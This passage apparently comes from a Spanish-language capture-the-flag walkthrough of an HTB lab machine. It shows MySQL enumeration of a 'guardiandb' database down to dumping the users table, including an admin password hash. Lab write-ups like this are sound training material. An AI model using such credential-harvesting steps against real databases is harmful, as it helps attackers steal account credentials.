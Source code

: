 ```
+--------------------+
| Database           |
+--------------------+
| guardiandb         |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
```

Vamos a entrar en la `DDBB` llamada `guardiandb` de esta forma:

```mysql
use guardiandb;
```

Ahora vamos a listar las tablas dentro de dicha `DDBB`:

```mysql
show tables;
```

Info:

```
+----------------------+
| Tables_in_guardiandb |
+----------------------+
| assignments          |
| courses              |
| enrollments          |
| grades               |
| messages             |
| notices              |
| programs             |
| submissions          |
| users                |
+----------------------+
9 rows in set (0.00 sec)
```

La que mas nos atrae es la tabla `users`, por lo que vamos a ver que contiene de esta forma seleccionando todo.

```mysql
select * from users;
```

Info:

```
+---------+--------------------+------------------------------------------------------------------+----------------------+---------------------------------+------------+-------------------------------------------------------------------------------+-----------+--------+---------------------+---------------------+
| user_id | username           | password_hash                                                    | full_name            | email                           | dob        | address                                                                       | user_role | status | created_at          | updated_at          |
+---------+--------------------+------------------------------------------------------------------+----------------------+---------------------------------+------------+-------------------------------------------------------------------------------+-----------+--------+---------------------+---------------------+
|       1 | admin              | 694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6 | System Admin         | admin@guardian.htb              | 2003-04-09 | 2625 Castlegate Court, Garden Grove, California, United States, 92645         | admin     | active | 2025-09-28 10:00:02 | 2025-09-28 10:00:02 |
```